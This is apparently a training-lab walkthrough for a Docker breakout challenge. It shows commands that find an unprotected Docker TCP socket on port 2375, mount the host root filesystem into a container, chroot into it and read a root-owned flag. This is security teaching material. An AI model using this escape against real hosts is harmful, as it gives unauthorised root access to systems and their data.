 ### Name : Misconfigured Docker Socket
### URL : https://attackdefense.com/challengedetails?cid=1194
### Type DevSecOps : Docker Breakouts  


  
**Important Note**: This document illustrates all the important steps required to complete this lab.
This is by no means a comprehensive step-by-step solution for this exercise. This is only
provided as a reference to various commands needed to complete this exercise and for your
further research on this topic. Also, note that the IP addresses and domain names might be
different in your lab.  

  
**Objective**: Leverage the unprotected TCP socket to escalate privileges and retrieve the flag
stored in the root directory of the host system!  

#### 1. List all processes listening on TCP ports of the local machine

```bash
sudo netstat  -nlptu
```
Conventionally Docker daemon is configured to listen on port 2375 for API requests sent over
unencrypted connections. Whereas 2376 is used for encrypted connections.

#### 2. Verify if the port 2375 is being used by the docker daemon.

```bash
curl localhost:2375/version
```
  
Output confirms that the Docker daemon is listening on TCP port 2375.  


#### 3. Docker client is installed on the host machine. Configure docker client to use the TCP Socket.  

```bash
export DOCKER_HOST="tcp://localhost:2375"
```

#### 4. Check the images available on local machine.

```
docker images
```

#### 5. Start an Ubuntu container. Mount root filesystem of host machine on /host directory of the container.

```bash
docker run -it -v /:/host/ ubuntu:18.04 bash
```

#### 6. Change to /host directory and list the files.  

```bash
cd /host/
ls -l
```

#### 7. Use chroot on the /host directory.  

```bash
chroot ./ bash
```

#### 8. Retrieve the flag.  

```bash
find / -name flag 2>/dev/null
cat /root/flag
```